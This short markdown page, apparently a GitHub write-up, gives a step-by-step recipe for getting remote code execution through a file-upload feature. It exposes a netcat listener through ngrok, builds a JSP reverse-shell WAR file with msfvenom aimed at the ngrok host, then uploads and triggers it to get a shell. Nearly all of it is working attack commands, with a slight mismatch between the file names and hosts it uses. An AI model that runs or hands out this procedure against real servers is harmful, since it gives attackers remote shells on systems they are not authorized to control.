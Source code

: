 
## File upload using ngrok and nc remote code execution


**Step 1:** Set up ngrok and netcat listener.
- Run `ngrok tcp 4000` to expose port 4000 via ngrok.
- Set up netcat listener on localhost port 4000: `nc -lvnp 4000`.
- Note the port forwarding link like `0.tcp.in.ngrok.io:15736`.

**Step 2:** Create malicious .war file using msfvenom.
- Generate .war file with customized LHOST and LPORT:
  ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=15736 -f war -o rev_shell1.war
  ```
- Make .war file executable: `chmod 777 rev_shell.war`.

**Step 3:** Upload .war file in the designated section and await shell.

**Step 4:** Click on the endpoint (e.g., view the file in a new tab) to execute.

**Step 5:** Observe executed code on the system for successful exploitation.
